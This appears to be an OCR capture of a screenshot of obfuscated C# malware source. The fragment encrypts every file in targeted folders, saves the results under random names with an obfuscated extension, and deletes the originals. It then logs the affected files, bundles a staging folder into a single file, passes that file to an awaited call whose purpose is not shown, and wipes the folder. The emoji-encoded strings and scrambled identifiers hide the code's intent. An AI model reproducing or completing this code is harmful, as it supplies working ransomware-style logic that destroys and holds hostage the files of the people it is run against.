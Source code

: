 ```
      string str2 = Path.Combine(folderPath, dir);
      if (Directory.Exists(str2))
      {
        foreach (string file in Directory.GetFiles(str2))
        {
          stringList.Add(file);
          try
          {
            byte[] numArray3 = cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.TxWVCaCGswNFFkFNyyuGYebzTnmKMI(File.ReadAllBytes(file), numArray1);
            string str3 = cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.eOUFdPmHAHcqPJQRyafSXBf(20);
            File.WriteAllBytes(Path.Combine(Path.GetDirectoryName(file), str3 + cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("\uD83D\uDC9C\uD83C\uDF63\uD83D\uDCAF\uD83D\uDC9B\uD83C\uDF75\uD83D\uDC8F\uD83D\uDD0C\uD83D\uDD0C")), numArray3);
            File.Delete(file);
            Thread.Sleep(500);
          }
          catch
          {
          }
        }
      }
    }
    File.WriteAllLines(Path.Combine(str1, cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("\uD83D\uDD01⚽\uD83C\uDD7F️\uD83C\uDF87⏩\uD83D\uDC0F\uD83D\uDC5E\uD83D\uDEB4\uD83C\uDE01ℹ️✒️\uD83C\uDF6F⏩\uD83D\uDD38\uD83D\uDC5E\uD83C\uDFC8⏩\uD83D\uDCC9\uD83D\uDC36\uD83D\uDEB4\uD83D\uDC23\uD83C\uDE51\uD83D\uDE8F\uD83C\uDF7A")), (IEnumerable<string>) stringList, Encoding.UTF8);
    string str4 = Path.Combine(str1, cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("\uD83D\uDCD3\uD83D\uDC7B\uD83D\uDD0E\uD83C\uDFA99️⃣\uD83D\uDC0F\uD83D\uDD0E\uD83C\uDF7B⏩\uD83D\uDEB9\uD83C\uDE3A⚽\uD83D\uDC58\uD83D\uDCBB\uD83D\uDD0C\uD83D\uDD0C"));
    string[] files = Directory.GetFiles(str1);
    cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.lzzmjArGgUUExMsxcUOqmdCCBrduwURYMq(str4, files);
    cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.hVQylKhewOSgWxHuxbNcBpLUQmdgVGemoKmKEvbqat(str4).Wait();
    Thread.Sleep(5000);
    Directory.Delete(str1, true);
  }

  private static void Main()
  {
```